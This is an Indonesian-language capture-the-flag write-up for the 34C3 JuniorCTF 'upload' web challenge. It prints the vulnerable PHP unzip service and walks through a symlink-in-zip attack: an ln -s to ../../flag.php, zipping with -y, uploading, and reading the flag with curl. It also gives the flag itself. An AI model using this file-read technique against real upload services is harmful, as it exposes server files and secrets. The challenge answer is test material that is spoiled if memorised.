


# 34C3 CTF 2017: JuniorCTF - upload

**Category:** Web
**Description:**

> This is an useful [service](http://35.197.205.153/) to unzip some files.
> We added a [flag](http://35.197.205.153/flag.php) for your convenience.

## Write-up

Pada challenge ini kita diberikan sebuah web dengan fitur upload dan kita diberikan akses ke [source code web](http://35.197.205.153/?source=1)
```php
 <?php
$UPLOADS = '/var/www/uploads/';
if(!empty($_FILES['uploaded_file'])) {
    $paths = scandir($UPLOADS);
    $now = time();
    foreach($paths as $path) {
        if ($path == '.') {
            continue;
        }
        $mtime = filemtime($UPLOADS . $path);
        if ($now - $mtime > 120) {
            shell_exec('rm -rf ' . $UPLOADS . $path);
        }
    }
    $path = $UPLOADS . uniqid('upl') . '/';
    if(!mkdir($path, 0777, true)) {
        die('mkdir failed');
    }
    $zip = $path . uniqid('zip');
    if(move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $zip)) {
        shell_exec('unzip -j -n ' . $zip . ' -d ' . $path);
        unlink($zip);
        header('Location: uploads/'. basename($path) . '/');
    } else {
        echo 'There was an error uploading the file, please try again!';
    }
} else {
?>
<!DOCTYPE html>
<html>
<head>
    <title>Upload your files</title>
</head>
<body>
<?php
    if (@$_GET['source']) {
        highlight_file(__FILE__);
    } else {
?>
    <form enctype="multipart/form-data" method="POST">
        <p>Upload your file</p>
        <input type="file" name="uploaded_file"></input><br />
        <input type="submit"></input>
    </form>
    <a href="?source=1">Show source</a>
</body>
</html>
<?php
    }
}
?> 
```

Ketika kita mengupload sebuah file zip maka akan unzip pada server dan file hasil extract akan dipindahkan ke `http://url/uploads/upl+uniqid`



File flag berada pada `http://url/flag.php`

Pada soal ini kita tidak memanfaatkan kelemahan dari php, namun kita akan memanfaatkan kehebatan dari `Symbolic Link` pada Linux

perintah dasarnya seperti ini
```bash
$ ln -s /path/to/file /path/to/symlink
```

Arahkan symlink ke flag.php yang letaknya berada pada `http://url/flag.php` sedengkan file kita berada pada `http://url/uploads/upl+uniqid`, sehingga kita harus naik 2 directory

```bash
$ ln -s ../../flag.php sebuah_file
```

lalu compress `sebuah_file` dengan nama `final.zip`

```bash
$ zip -y final.zip sebuah_file
```

Upload `final.zip` ke server



klik pada `sebuah_file` dan lihat isinya atau copy link lalu gunakan curl

```bash
$ curl http://35.197.205.153/uploads/upl5a4907d85d7e1/sebuah_file
<?php
$flag = "34C3_unpack_th3_M1ss1ng_l!nk"
?>
```

## References

* [stackoverflow](https://stackoverflow.com/questions/1951742/how-to-symlink-a-file-in-linux)